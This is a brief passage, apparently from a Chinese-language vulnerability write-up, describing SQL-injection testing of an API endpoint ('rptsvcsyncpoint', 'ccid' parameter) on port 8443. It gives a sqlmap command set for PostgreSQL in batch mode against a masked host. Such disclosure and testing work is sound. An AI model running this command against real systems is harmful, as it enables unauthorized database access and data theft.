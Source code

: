 使用脚本进行初步探测，利用sqlmap进一步进行利用
``` 
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL --batch
```
！[image](images/sqlmap.png)

